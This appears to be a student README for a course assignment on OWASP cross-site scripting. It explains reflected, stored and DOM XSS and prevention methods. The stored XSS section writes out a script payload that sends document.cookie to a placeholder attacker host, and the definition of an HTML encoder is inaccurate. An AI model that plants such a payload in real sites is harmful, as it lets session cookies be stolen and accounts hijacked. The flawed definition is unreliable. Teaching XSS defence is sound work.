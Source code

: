 # Week 12 - OWASP A7 Cross-Site Scripting (XSS)
Group: Martin Frederiksen(cph-mf237), Andreas Vikke(cph-av105).
    (sudo nodejs index.js)


### Explain the “sections”, “Is the Application Vulnerable” and “How to Prevent” for the OWASP 2017 Risks: A7
- **Reflected XSS:** The user interacts with a link that sends them to a site with data from the attacker. This data can be javascript that extracts information and sends it futher to the atrackers server.
- **Stored XSS:** The attacker  stores unsanitized data in the database which later shows up in other users browsers and executes.
- **DOM XSS:** The websites framework dynamically includes a libary which the attacker has control over.
- **Prevent:** To prevent the data needs to be seperated of unstruted data. This can be done with frameworks that escape XXS, escaping untrusted HTTP request, applying context-sensitive encoding, eneabeling CSP as a defense-in-depth.


### Demonstrate a simple reflected XSS example
The attacker can make an e-mail with information about the company, and a link to the real companies site. The link then points to a search site with a script that extracts the current users JSSESSION and sends it to the attackers server.


### Explain and Demonstrate a stored XSS attack with session hijacking and a subsequent attack using the “stolen” session ID
A stored XSS attack is when the attacker saves a script in the database which is then run in other users browser when it gets to them.
The attacker creates an account and in the USername field he adds <script>fetch("http://XXXX:666/evil?cookie="+document.cookie);</script> Then when users or admins see this his username, be it on a forum or in a list of users, the browser sends the JSSESSION cookie to the attackers server.


### What kind of “indications” will an attacker look for in a WEB-page before testing whether the site is vulnerable to XSS-attacks?
The attackers first looks if the server is SSL protected, if not the server sends unencrypted data, after this he looks for input fields, some input fields could be unsanitized, so more is better.


### Explain and demonstrate ways to prevent XSS-attacks
There are many ways to prevent XSS, some newer frameworks have it build in even. You can escape the XSS by design, escape untrusted HTTP requests, apply sanitation on the server site, apply context-sensitive encoding.

### Explain the terms HTML Sanitizer and HTML Encoder and their purposes
- **HTML sanitization:** examines the HTML document and makes a new HTML document that removes all the tags that are not safe, such as <script>, <object>, <embed>, <link>. The sanitation is typically using a whitelist or blacklist approch. The whitelist allows nothing but the whitelistet item, and the blacklist allows everything but the blacklistet items.
- **HTML encoder:** The encoding of the HTML document determines what character encoding to be used, default UTF-8.